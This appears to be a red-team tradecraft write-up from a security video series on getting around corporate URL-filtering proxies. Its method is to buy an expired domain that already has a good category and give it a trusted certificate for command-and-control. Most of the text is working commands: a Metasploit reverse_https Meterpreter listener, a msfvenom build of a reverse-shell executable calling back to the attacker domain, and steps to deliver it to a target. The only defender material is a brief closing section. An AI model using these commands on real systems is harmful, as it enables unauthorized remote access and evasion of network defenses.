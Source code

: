 Meterpreter with Categorized Domains & Trusted Certs – Tradecraft Security Weekly #4

# Bypassing URL Filtering Proxies
- It is common for orgs to proxy web traffic for employees
- They can place restrictions on what websites can be visited, block ads etc...
- Generally accomplished through categorization
- For example: amazon.com would be "Shopping"
- Uncategorized are generally blocked by default

# Locate a Categorized Domain
- One way to bypass is to use a categorized domain for C2
- Can check expireddomains.net for recently expired domains
- Then use DomainHunter to check categorization
- Register a domain that has a "good" categorization
- Modify DNS to point to C2 server
- see http://www.blackhillsinfosec.com/?p=5831

# Trusted Certificates
- An additional precaution to take to ensure the C2 transmission isn't blocked is to use a valid signed certificate
- Follow the instructions for generating a free certificate using Let's Encrypt - https://cerbot.eff.org
- Now we have a categorized domain with a cert that is trusted by most browsers

# Demo
find expired domain with good rep
https://github.com/minisllc/domainhunter
```
# python domainhunter.py -r 4 -c
```
Set up meterpreter listener
```
msf> use exploit/multi/handler
msf> set PAYLOAD windows/meterpreter/reverse_https
msf> set LHOST theexpireddomainwebuy
msf> set LPORT 443
msf> set handlersslcert /root/theexpireddomaincertwecreated.pem
msf> set enablestageencoding true
msf> set exitonsesssion false
msf> set stagerverifysslcert true
msf> exploit -j
```
generate payload
```
# msfvenom -p windows/meterpreter/reverse_https lhost=expiredboughtdomain.com lport=443 -f exe > rev_https.exe
```
host file to deliver
```
python -m SimpleHTTPServer 8000
```
vist https://expiredboughtdomain.com:8000/ and download the executable to the target from the target or via alternate method.
run executable on target and bathe in shells 

# For the blues
- Domain categorization is only a part of defense-in-depth and will likely not prevent all C2 channels
- Some products detect Meterpreter's reverse_https channel but simply adding a different certificate can bypass them









































